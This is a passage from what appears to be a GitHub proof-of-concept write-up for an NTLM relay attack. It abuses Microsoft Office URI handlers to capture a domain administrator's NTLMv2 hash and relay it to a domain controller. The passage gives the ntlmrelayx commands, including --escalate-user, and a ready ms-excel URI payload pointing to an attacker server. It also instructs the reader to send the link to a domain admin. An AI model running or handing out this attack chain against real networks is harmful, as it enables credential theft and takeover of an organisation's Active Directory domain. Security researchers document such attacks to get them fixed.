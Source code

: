 
![3](https://github.com/user-attachments/assets/80b99268-8d57-4ccb-aaa9-6df84f2dac86)


2. The `office.html` file can be served from any server accessible to the victim user `(e.g., https://office.com/office.html)` . I set port 8081 for Apache because ntlmrelayx will use port 80 by default. We can use `--http-port` with ntlmrelayx as another option. Enter the added record into the Office URI within the `office.html` file. 

![0](https://github.com/user-attachments/assets/b4a23489-bd70-4320-8351-a519097fc712)
![2-1](https://github.com/user-attachments/assets/e2ee2715-ace4-4fa0-912a-c78bffb2c88e)

3. Fire up ntlmrelayx: `python3 ntlmrelayx.py -t ldap://DC-IP-ADDRESS --escalate-user username`
4. Send the URL of the `office.html` file to a user with domain admin privileges. You should check whether the DNS record is resolved with the `ping` command before sending the URL.
5. When the victim user navigates to the URL, clicking the 'Open' button is enough to capture the NTLMv2 hash. (no warning!)
![6](https://github.com/user-attachments/assets/4684884f-7aa0-47ff-a715-d71114331cf1)

6. The captured NTLMv2 hash over HTTP is relayed to Domain Controller with `ntlmrelayx`. As a result, a standard user can obtain `DCSync` and `Enterprise Admins` permissions under the default configurations with just two clicks.
![8](https://github.com/user-attachments/assets/785c158d-d355-4977-a671-c9a12fc83231)


https://github.com/user-attachments/assets/6fdbcd57-16aa-4497-810e-18e0a251e890

https://github.com/user-attachments/assets/22b759f5-1ac2-45bd-8916-714c8a84b40f



If a domain-joined server is compromised and running `inveigh` or `ntlmrelayx` is possible, adding a DNS record is not necessary. <br>
Ntlmrelayx: `python3 ntlmrelayx.py -t ldaps://DC-IP-ADDRESS --http-port 8080` <br>
Office Uri: `ms-excel:ofe|u|http://compromisedservername:8080/leak.xlsx`

This proof of concept was carried out on `Microsoft Office 2019 MSO Build 1808 (16.0.10411.20011)` and `Microsoft 365 MSO (Version 2403 Build 16.0.17425.20176)` .


## Integrated Windows Authentication
> Anyone that has used Windows in an intranet corporate environment may have noticed that accessing corporate resources in a network is frictionless and, in many cases, requires no explicit authentication prompting for credentials other than the initial Windows domain log-on. This is true for several services, like network-mapped drives, intranet websites, and more.
> Microsoft-based browsers Internet Explorer and Edge have a concept of trusted zones: Internet, Local Intranet, Trusted Sites, and Restricted Sites. Each zone has a different security level and associated restrictions. For example, for Intranet zone sites, Internet Explorer disables the XSS filter, runs ActiveX plug-ins, performs automatic logins, and overall has fewer security controls than for Internet sites.
> By default, when a web server has a resource protected by NTLM authentication, Internet Explorer and Edge will perform the authentication automatically if the website is either located within the corporate intranet or is whitelisted in the Trusted Sites, respecting the concept of trusted zones.
> Other browsers, like Mozilla Firefox and Google Chrome, also support automatic NTLM log-on. Chrome relies on the same settings as Internet Explorer; in the case of Firefox, this configuration is not enabled by default and has to be manually changed via about:config.
